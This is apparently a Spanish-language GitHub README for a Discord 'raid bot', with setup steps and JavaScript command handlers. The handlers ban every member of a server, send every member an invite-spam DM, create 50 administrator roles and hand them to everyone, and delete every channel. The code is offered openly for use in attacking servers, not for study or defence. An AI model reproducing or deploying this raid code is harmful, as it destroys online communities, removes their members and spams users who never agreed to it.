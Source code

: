 # anotherdiscordraidbot

Otro Bot de Raid de Discord, no es lo esperado o lo buscado por los mas exigentes; pero sirve.

## Instalacion / Configurar

Primero clona el repositorio:
```bash
[/home/1080] nyethash~ # git clone https://github.com/zJuack/anotherdiscordraidbot
```

Despues de eso es hora que configures, edites y hostees el bot, repl.it es una opcion; o Heroku.

Facilmente podrias configurar el bot haciendo cambios en ciertas lineas, como por ejemplo:

```js
client.login("El Token de tu Bot esta aqui.");
```
```js
  if (command === "banall") {
    message.guild.members.cache.forEach(allUsers => { allUsers.ban() })
  }
  if (command == "dm") {
    message.guild.members.cache.forEach(pitos => {
      pitos.send("Tu mensaje para DM: discord.gg/tuservidor")

    })
  }
  if (command == "roles") {
    for (let i = 0; i <= 50; i++) {
      message.guild.roles.create({ data: { name: "TuNombreDeRol", permissions: "ADMINISTRATOR", color: "BLACK" } })
    }
    let xd = message.guild.roles.cache.find(c => c.name === "TuNombreDeRol");
    message.guild.members.cache.forEach(allUsers => { allUsers.roles.add(xd) })
  }
  if (command == "deletechannels") {
    message.guild.channels.cache.forEach(xd => xd.delete())
  }
});
```

Hay mas cosas que puedes cambiar, pero tu las podes ver tu mismo, por cualquier problema; no dudes en contactarme.

